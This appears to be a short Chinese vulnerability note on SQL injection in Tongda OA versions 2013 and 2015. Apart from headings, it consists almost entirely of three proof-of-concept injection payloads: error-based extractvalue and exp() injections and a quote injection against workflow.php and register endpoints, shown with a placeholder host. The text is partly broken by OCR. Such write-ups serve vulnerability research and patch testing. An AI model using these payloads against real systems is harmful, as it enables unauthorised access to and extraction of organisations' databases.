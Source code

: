 ```yaml
---
title: "通达oa sql注入"
id: zhfly3337
---
```


# 通达oa sql注入

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

poc

```
http://0-sec.org/general/mytable/intel_view/workflow.php?MAX_COUNT=15 procedure analyse(extrac
tvalue(rand(),concat(0x3a,database())),1)&TYPE=3&MODULE_SCROLL=false&MODULE_ID=55&
MODULE_ID=Math.random 
```

```
http://0-sec.org/general/document/index.php/recv/register/turn `post(_SERVER=&rid=1’)` 
```

```
http://0-sec.org/general/document/index.php/recv/register/insert  

post:   
title)values("'"^exp(if(1%3d2,1,710)))#=1&_SERVER= 
```